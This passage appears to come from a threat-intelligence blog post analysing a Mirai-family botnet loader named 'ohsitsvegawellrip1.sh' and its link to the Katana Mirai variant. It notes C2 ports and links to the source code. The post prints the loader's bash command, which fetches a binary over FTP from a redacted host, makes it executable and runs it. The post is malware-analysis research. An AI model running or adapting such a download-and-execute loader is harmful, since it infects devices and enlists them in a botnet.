 ### **The `ohsitsvegawellrip1.sh` Loader and Katana Mirai**

Also present on the FTP server was a new loader called `ohsitsvegawellrip1.sh`, this contained a payload template similar to the `boatnet.sh` loader from the first post, except this cone includes an interesting argument for the executed binary.

The binary grabbed from the FTP server is executed with `ssh.vegasec` as the argument, further confirming the de-compiled code. This also gives us a name to investigate: "vegasec".
This also ties into the outputted string from running the binary in tria(.)ge ("xXxSlicexXxxVEGA")

After a quick Google search, I came across a [brief write-up](https://otx.alienvault.com/pulse/5f9a7c97880d6865be8aa202) on the Katana Mirai variant—yet another open-source botnet on GitHub that our operator has chosen.

The C2 server listens for bots on port `60195` and for admin panel connections on port `44115`. All usernames and passwords for admin panel logins are stored in a MySQL database (like most Mirai variants).

```bash
ulimit -n 1024
cp /bin/busybox /tmp/

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; ftpget -v -u anonymous -p anonymous -P 21 {REDACTED} KKveTTgaAAsecNNaaaa.x86 KKveTTgaAAsecNNaaaa.x86; cat KKveTTgaAAsecNNaaaa.x86 > loudscream; chmod +x *; ./loudscream ssh.vegasec
```

The loader functions the same as the Mirai loader from Part 1 but with different file and variable names.

https://github.com/saintly2k/katana

https://www.virustotal.com/graph/ge70ec3f6457542e6ad85ce4fd2fcac2c066f8c0ce7b74ad59260162ae9730d03